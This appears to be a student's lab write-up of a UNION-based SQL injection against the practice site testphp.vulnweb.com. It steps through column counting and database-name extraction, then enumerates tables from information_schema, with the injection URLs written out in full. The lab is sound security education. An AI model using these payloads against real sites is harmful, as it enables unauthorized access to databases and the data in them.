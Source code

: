 # First Injection and Exploring

To start, the lab's first step is to analyze what happens if you tried an injection like this.
```
http://testphp.vulnweb.com/artists.php?artist=1
```
So before I did the injection, I looked over what information is publicly out in the site just so I can tell any differences after injecting. <br />

So then first tried the commands on the second link from my resources.<br />
I added a ‘ <br />

Result: 
![image](https://github.com/user-attachments/assets/ab533ff6-7043-4fb4-9a2e-8a18aee6ef13)

Then I did: 
```
ORDER BY 1.
```
I did notice that the space in the URL translates to %20 but the site just went back to normal. <br />
![image](https://github.com/user-attachments/assets/96dd693d-4e1f-4868-bb68-4db854ee4c30)  <br />


removing the space result to an error again.<br />
![image](https://github.com/user-attachments/assets/c61e8fc5-c1f2-4926-bbbb-0cd2cf0ab335) <br />


kept doing ORDER BY, ‘til it errored on 4. So there’s only 4 columns on this table, the artists table.<br />
![image](https://github.com/user-attachments/assets/89245b7d-3fa1-4791-9e49-f8fd5743a812)

Then did <br />
```
union select 1,2,3
```
Which nothing showed up.<br />
![image](https://github.com/user-attachments/assets/34a255aa-c42f-4d73-aeb9-16bf52baf154)<br />

I changed artist=1 to a -1. <br />
This time it showed some numbers. It could mean two artists in a table or it’s the second field name. <br />
I am unsure yet. I moved on to the next steps.<br />
![image](https://github.com/user-attachments/assets/df809abf-ac27-476e-9d6b-79e67d2258d3)<br />

Getting the database name. 
```
http://testphp.vulnweb.com/artists.php?artist=-1%20union%20select%201,database(),3
```
![image](https://github.com/user-attachments/assets/099f5e37-97b0-48ca-ad27-4377dcb009ab) <br />


I tried to look for any tables in the database: 
```
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1 
```
![image](https://github.com/user-attachments/assets/ce3fa655-dcab-4ded-9df1-65f222f5de95)<br />


Now, it showed a name “artists”. Assuming that’s the table name. and the artist is one of the field names.<br />

Then I changed limit 0,1 to 1,1 and continued changing it. <br />
```
union select 1,table_name,3 
from information_schema.tables 
where table_schema=database() limit 1,1 
```
table carts<br />
![image](https://github.com/user-attachments/assets/43b6052f-5d07-4eac-a9f7-7bc197fb59d1) <br /><br />

2,1 categ<br />
Table categ<br />
![image](https://github.com/user-attachments/assets/edb23b86-91cb-4838-9832-6331582f4b80) <br />

Then I jumped higher jumped higher. 5,1 pictures<br />
![image](https://github.com/user-attachments/assets/aab16d22-1624-4536-ae47-41c5c21b5c36)<br /><br />

9,1 was blank to I went back, 8,1 I also blank. So went further back to 7,1 which showed users. <br />
![image](https://github.com/user-attachments/assets/bd35f7db-328d-4253-bf98-38ffa8ea52a2)<br />
![image](https://github.com/user-attachments/assets/2500bf9c-b948-4c13-b7fb-48df18f86f7f)<br />

<b> So that concludes there are 8 tables.<br />
starting from 0,1-7,1.<br />
</b>

>[!NOTE]
> Next, Breaking more queries!





